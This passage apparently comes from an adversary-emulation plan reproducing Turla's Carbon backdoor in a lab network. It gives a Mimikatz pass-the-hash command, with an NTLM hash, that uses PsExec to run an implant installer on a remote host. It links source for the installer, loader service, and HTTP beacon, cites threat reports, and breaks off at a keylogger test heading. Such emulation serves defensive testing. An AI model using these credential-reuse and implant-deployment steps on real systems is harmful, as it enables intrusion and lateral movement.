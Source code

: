 :arrow_right: Minimize (do not close) the `khabibulin (10.20.20.104)` RDP
window and return to the RDP session to `bannik (10.20.10.9)`.

* From the existing elevated Windows Command Prompt, execute Mimikatz
Pass-the-Hash with PsExec to execute the 3rd Carbon installer on `khabibulin
(10.20.20.104)`:

```bat
C:\Windows\System32\terabox.exe "pr::d" "slsa::htp /user:adalwolfa /domain:skt /ntlm:07d128430a6338f8d537f6b3ae1dc136 /remotepc:khabibulin /pexe:C:\Windows\System32\wsqsp.exe /sys:1 /prun:C:\Windows\System32\wsqmanager.exe" "quit"
```

:heavy_exclamation_mark: Verify that a new Carbon implant has been registered with the control server.

### :moyai: Source Code

* [Mimikatz](Resources_Mimikatz.)
* [CARBON-DLL installer](CarbonInstaller_README.md)
  * [Drop components](file_handler.cpp#L178)
  * [Create Loader Service](service_handler.cpp#L170)
    * Service registry edits: [1](service_handler.cpp#L230), [2](service_handler.cpp#L284)
  * [Start Loader Service](service_handler.cpp#L354)
  * [Loader Service](service.cpp)
* [CARBON-DLL Orchestrator](Orchestrator_README.md)
  * [Task Execution](tasking.cpp#L388)
* [CARBON-DLL Comms Lib](CommLib_README.md)
  * [Beacon and task/payload retrieval over HTTP](CommLib.cpp#L313)
  * [Upload task output over HTTP](CommLib.cpp#L342)

### :microscope: Cited Intelligence

* [Report 4: SwissCERT - RUAG Report](https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html)
* [Report 9: Symantec - Waterbug New Toolset](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/waterbug-espionage-governments)
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://www.gdata.pt/blog/2015/01/23926-analysis-of-project-cobra>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/waterbug-espionage-governments>
* <https://www.welivesecurity.com/2019/05/29/turla-powershell-usage/>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>

<br>

## Test 6: Keylogger

:microphone: `Voice Track:`
